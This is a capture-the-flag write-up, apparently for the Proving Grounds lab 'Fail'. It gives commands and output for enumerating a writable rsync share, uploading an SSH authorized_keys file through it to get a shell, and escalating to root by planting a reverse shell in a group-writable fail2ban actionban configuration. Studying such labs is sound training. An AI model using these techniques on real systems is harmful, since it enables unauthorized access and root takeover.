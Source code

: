 ```yaml
---
layout: post
title: PG | Fail
subtitle: You shall not pass.
---
```


# Nmap Scan Results

~~~
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-24 16:26 UTC
Nmap scan report for 192.168.194.126
Host is up (0.015s latency).
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
873/tcp open  rsync   (protocol version 31)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.36 seconds
~~~

# Service Enumeration

## Rsync (TCP/873)
Rsync is a directory sharing protocol used on Unix systems

The protocol can be scanned for available folders using an nmap script
~~~
nmap -sV --script "rsync-list-modules" -p 873 192.168.194.126
~~~
~~~
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)
| rsync-list-modules: 
|_  fox                 fox home
~~~

The contents of the fox folder revealed the contents of an empty home directory
~~~
rsync -av --list-only rsync://192.168.194.126/fox
~~~
~~~
receiving incremental file list
drwxr-xr-x          4,096 2021/01/21 14:21:59 .
lrwxrwxrwx              9 2020/12/03 20:22:42 .bash_history -> /dev/null
-rw-r--r--            220 2019/04/18 04:12:36 .bash_logout
-rw-r--r--          3,526 2019/04/18 04:12:36 .bashrc
-rw-r--r--            807 2019/04/18 04:12:36 .profile

sent 20 bytes  received 136 bytes  312.00 bytes/sec
total size is 4,562  speedup is 29.24
~~~

The contents of the fox folder can be retrieved and stored locally using the command
~~~
rsync -av rsync://192.168.194.126/fox ./rsyn_shared
~~~
These files reveal no useful information to further our progress.

Rsync also allows us to upload files, therefore we can generate a SSH key (as we have seen SSH TCP port 22 is enabled), then upload to the key to the machine using Rsync to
give us a remote connection to the machine.

# Exploitation

1. Generate SSH Key
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ ssh-keygen                                       
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_rsa
Your public key has been saved in /home/kali/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:LvQfnvR+8TxNBfJBl+4vlOWFvrQu5HBkN6lzYPVXszk kali@kali
The key's randomart image is:
+---[RSA 3072]----+
|             .. o|
|            . ++.|
|             +.*=|
|            = *E*|
|      . S  + =.==|
|     . o  . = B.o|
|      . o o= = Bo|
|       . + +o =.=|
|          +.o+...|
+----[SHA256]-----+
~~~

2. Copy our .ssh directory locally
~~~
cp -R /home/kali/.ssh .
~~~

3. Rename id_rsa.pub (our public key) to authorized_keys before transferring to the target
~~~
┌──(kali㉿kali)-[~/Desktop/Fail]
└─$ cd .ssh
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ mv id_rsa.pub authorized_keys
~~~

4. Upload the .ssh file (containing authorized_keys) to Rsync
~~~
rsync -av /home/kali/Desktop/Fail/.ssh rsync://fox@192.168.194.126/fox
~~~

5. SSH into the target machine
~~~
┌──(kali㉿kali)-[~/Desktop/Fail/.ssh]
└─$ ssh -i ./id_rsa fox@192.168.194.126
The authenticity of host '192.168.194.126 (192.168.194.126)' can't be established.
ED25519 key fingerprint is SHA256:mqPCrimr9j626KOGoHM+qxgHUOYD4pu1+4KzhIvu5uA.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:37: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.194.126' (ED25519) to the list of known hosts.
Linux fail 4.19.0-12-amd64 #1 SMP Debian 4.19.152-1 (2020-10-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=1000(fox) gid=1001(fox) groups=1001(fox),1000(fail2ban)
$ 
~~~

# Privilege Escalation

After running Linpeas.sh a directory /etc/fail2ban was identified which is writable by our user

~~~
╔══════════╣ Interesting GROUP writable files (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                                                            
  Group fail2ban:                                                                                                                                                            
/etc/fail2ban/action.d                                                                                                                                                       
/etc/fail2ban/action.d/firewallcmd-ipset.conf
/etc/fail2ban/action.d/nftables-multiport.conf
/etc/fail2ban/action.d/firewallcmd-multiport.conf
/etc/fail2ban/action.d/mail-whois.conf
/etc/fail2ban/action.d/ufw.conf
#)You_can_write_even_more_files_inside_last_directory
~~~

A manual verification of this vulnerability was ran which identified full Read, Write, Execute (RWX) permissions over a file named action.d which is ran by Root

~~~
$ find /etc -writable -ls 2>/dev/null
   787482      4 drwxrwxr-x   2 root     fail2ban     4096 Dec  3  2020 /etc/fail2ban/action.d
~~~

After researching exploits for Fail2Ban an exploit I discovered an exploit within /etc/fail2ban/jail.conf [Exploit](https://systemweakness.com/privilege-escalation-with-fail2ban-nopasswd-d3a6ee69db49)

Inspecting /etc/fail2ban/jail.conf shows that Fail2Ban is configured to only allow 2 attempts before performing the banaction (maxretry) as shown below
![Fail](/assets/img/FailPG(1).png)

Further down it shows the banaction executes iptables-multiport, we have read-write permissions over iptables-multiport.conf as shown below
![Fail](/assets/img/FailPG(2).png)

We then change the iptables-multiport.conf file's actionban= to include a reverse shell
Before
![Fail](/assets/img/FailPG(3).png)
After
![Fail](/assets/img/FailPG(4).png)

Start a listener on port 80

Attempt to log in with invalid credentials to execute the Fail2Ban and execute our reverse shell
┌──(kali㉿kali)-[~]
└─$ ssh root@192.168.194.126                    
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
Permission denied, please try again.
root@192.168.194.126's password: 
root@192.168.194.126: Permission denied (publickey,password).

We then recieve our root shell on the netcat listener on port 80

![Fail](/assets/img/FailPG(5).png)

